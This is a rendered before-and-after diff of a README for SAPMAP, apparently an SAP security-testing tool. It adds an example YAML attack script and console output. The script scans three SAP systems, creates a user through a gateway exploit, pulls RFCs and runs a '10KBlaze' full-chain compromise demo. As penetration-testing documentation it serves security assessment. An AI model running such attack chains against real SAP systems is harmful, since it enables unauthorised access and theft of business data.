

Before and after one commit to SecuritySilverbacks/SAPMAP, a Markdown page: README.md, the part around one of its changes. Shown at 96% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -623,3 +762,64 @@ Discovers valid client numbers (000–999) by testing DIAG logon responses.
+### Example: Multi-System Landscape
+
+```yaml
+name: "SAP Landscape Attack"
+description: "Scan 3 systems, exploit, propagate, analyze trust chains"
+
+steps:
+  - action: add_system
+    sid: S4H
+    ip: 192.168.2.209
+    instance: "00"
+
+  - action: add_system
+    sid: TWT
+    ip: 192.168.2.60
+    instance: "00"
+
+  - action: add_system
+    sid: ORA
+    ip: 192.168.2.16
+    instance: "00"
+
+  - action: check_all_gw
+
+  - action: check_all_betrusted
+    attacker_ip: auto
+
+  - action: create_user
+    target: S4H
+    method: gw_exploit
+    client: "001"
+
+  - action: retrieve_rfcs
+    target: S4H
+
+  - action: impact_assess
+    target: S4H
+    client: "001"
+
+  - action: analyze_chains
+```
+
+### Console Output
+
+The script logs progress to the SAPMAP console:
+
+```
+[SCRIPT] === 10KBlaze Full Chain Demo ===
+[SCRIPT] Compromise SAP S4H via betrusted + GW exploit, then extract business data
+[SCRIPT] 8 steps to execute
+
+[SCRIPT] Step 1/8: add_system on S4H
+[SCRIPT] Step 1/8: completed
+[SCRIPT] Step 2/8: check_gw on S4H
+[SCRIPT] Step 2/8: completed
+...
+[SCRIPT] === All 8 steps completed ===
+```
+
+---
+
 ## State Management
 
 ### Saving & Loading
````
Also changed, not shown: other parts of README.md (+139 -0 lines).
